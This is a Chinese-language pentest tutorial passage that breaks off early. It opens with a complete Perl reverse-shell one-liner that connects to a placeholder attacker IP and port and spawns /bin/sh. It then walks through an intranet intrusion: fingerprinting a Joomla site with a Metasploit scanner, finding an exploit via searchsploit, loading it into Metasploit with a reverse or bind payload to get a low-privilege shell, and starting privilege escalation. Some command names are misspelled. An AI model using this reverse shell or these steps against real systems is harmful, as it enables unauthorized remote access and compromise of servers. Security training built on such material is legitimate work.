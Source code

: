 ### perl 反弹shell  

```
useSocket;$i=&#34;攻击机IP地址&#34;;$p=监听端口号;socket(S,PF_INET,SOCK_STREAM,getprotobyname(&#34;tcp&#34;));if(connect(S,sockaddr_in($p,inet_aton($i)))){(open(STDIN,&#34;>&S&#34;);open(STDOUT,&#34;>&S&#34;);open(STDERR,&#34;>&S&#34;);exec(&#34;/bin/sh -i&#34;);};
```

  
perl和python绝大多数服务器都会装，所以很有用  
  
以某次内网渗透为实例  
## 横向渗透预备工作  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4Ok2nOkGltgwibc4mky9TATy0ZXY68ibPFlhfAamUQ4FczRiaddzSaqc2qw/640?wx_fmt=png&from=appmsg "")  
  
  
假设是如上拓扑图。先无视防火墙，内网机器无法直接访问外网，必须要走边界机。  
### 获得低权限shell  
- 在网站信息搜集看到是joomla模板  
  
- msf里search joomla **查看**  
 辅助模块auxiliar里的**扫描脚本**  
：
```
auxiliary/scannner/http/joomla_version
```

  
  
- use脚本设置rhost参数，然后expolit运行可以看到网站版本。
```
expolit -j -z
```

  
挂后台  
  
- 
```
searchsplopit joomla 版本
```

**寻找exp**  
，最好是在exploit.db找，这里图个方便  
  
- 把脚本copy到msf的exploits/multi/php目录下，然后reload  
  
- use exp脚本，set rhost\rport参数和lhost\lport参数，set payload为reverse或者bind，exploit运行  
  
目前获得了低权限shell，sessions进入shell  
### 提权  
- 
```
uname -a
```

  